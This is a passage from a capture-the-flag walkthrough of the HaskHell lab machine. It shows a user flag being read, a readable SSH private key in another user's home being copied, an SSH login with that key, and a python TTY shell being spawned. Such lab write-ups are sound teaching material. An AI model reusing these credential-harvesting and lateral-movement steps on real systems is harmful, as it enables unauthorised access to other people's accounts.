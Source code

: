 ~~~
flask@haskhell:~$ cd /home/prof
flask@haskhell:/home/prof$ ls
__pycache__  user.txt
flask@haskhell:/home/prof$ cat user.txt
flag{academic_dishonesty}
~~~

user.txt: `flag{academic_dishonesty}`

## flask -> prof (lateral move)

Now me need to move lateraly for more access. There is a `/.ssh` directory in `prof`'s home directory:

~~~
flask@haskhell:/home/prof$ ls -la .ssh
total 20
drwxr-xr-x 2 prof prof 4096 May 27  2020 .
drwxr-xr-x 7 prof prof 4096 May 27  2020 ..
-rw-rw-r-- 1 prof prof  395 May 27  2020 authorized_keys
-rw-r--r-- 1 prof prof 1679 May 27  2020 id_rsa
-rw-r--r-- 1 prof prof  395 May 27  2020 id_rsa.pub
~~~

Great! There is an `id_rsa` and we can use it to connect to machine via ssh as `prof`. Copy it to your machine and set its permission to 600 and now we can use it to connect to the target machine via ssh as user `prof`. The first thing I did was spawning a TTY shell, again:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/HaskHell/files]
└─$ chmod 600 prof_rsa                                           
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/HaskHell/files]
└─$ ssh -i prof_rsa prof@$IP
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov 20 10:04:41 UTC 2021

  System load:  0.04               Processes:           108
  Usage of /:   26.3% of 19.56GB   Users logged in:     0
  Memory usage: 50%                IP address for eth0: 10.10.84.36
  Swap usage:   0%


39 packages can be updated.
0 updates are security updates.


Last login: Sat Nov 20 10:03:54 2021 from 10.9.1.83
$ id
uid=1002(prof) gid=1002(prof) groups=1002(prof)
$ python -c "import pty;pty.spawn('/bin/bash')"
prof@haskhell:~$
~~~
